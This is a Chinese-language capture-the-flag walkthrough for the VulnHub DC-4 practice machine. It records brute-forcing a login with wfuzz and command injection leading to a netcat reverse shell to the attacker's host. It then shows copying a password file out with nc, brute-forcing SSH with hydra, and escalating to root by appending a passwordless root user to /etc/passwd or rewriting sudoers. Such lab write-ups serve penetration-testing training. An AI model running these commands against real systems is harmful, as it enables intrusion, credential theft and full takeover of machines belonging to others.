 # DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/2.png)

一个 web ,一个 ssh,先看看 web 有什么信息

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/3.png)

单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/4.png)

可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/5.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/6.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/7.png)

这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/8.png)

此时 kali 以收到弹回的 shell，给他改成方便交互的

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/9.png)

---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/10.png)

当然用 nc 也可以直接传
```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/11.png)

登录,并查看 mbox 内容

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/12.png)

看上去像是一份邮件,去 `/var/mail` 看看是否有信息

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/13.png)

发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```
su charles
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/14.png)

Charles 可以使用 sudo 权限运行 teehee。teehee 可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/15.png)

2. 在 sudoers 里给 charles 所有权限
    ```
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/16.png)

提权成功,感谢靶机作者 @DCUA7
